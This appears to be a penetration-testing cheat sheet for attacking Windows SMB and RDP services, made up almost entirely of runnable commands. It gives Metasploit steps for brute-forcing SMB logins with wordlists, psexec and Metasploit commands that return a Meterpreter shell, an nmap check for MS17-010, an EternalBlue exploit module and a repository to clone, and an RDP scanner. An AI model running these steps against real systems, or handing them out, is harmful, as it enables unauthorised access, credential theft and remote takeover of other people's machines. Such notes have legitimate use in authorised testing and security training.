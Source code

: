 ```msfconsole
use auxiliary/scanner/smb/smb_login
show options
set RHOST <ip-address>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

> This module can be used to brute force users on SMB.

```
psexec.py Administrator@<ip-address> cmd.exe
```

> It will ask for the password after this command.

```msfconsole
use exploit/windows/smb/psexec
show options
set RHOST <ip-address>
set SMBUser <username>
set SMBPass <password>
exploit
```

> If you know the user and pass then it will automates the uploading and exploitation phase and gives you a meterpreter shell.

#### Exploiting MS17-010

```Shell
nmap -sV -p 445 --script=smb-vuln-ms17-010 <ip-address>
```

> Scans the machine for MS17-010 Vulnerability. 

```Shell
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
```

> This tool can be used to exploit the vulnerability manually. 

```msfconsole
use exploit/windows/smb/ms17_010_eternalblue
show options
set LHOST <host-address>
set RHOST <ip-address>
exploit
```

#### RDP Exploitation:

```msfconsole
search auxiliary/scanner/rdp/rdp_scanner
show options
set RHOST <ip-address>
set RPORT <port-number>
run
```
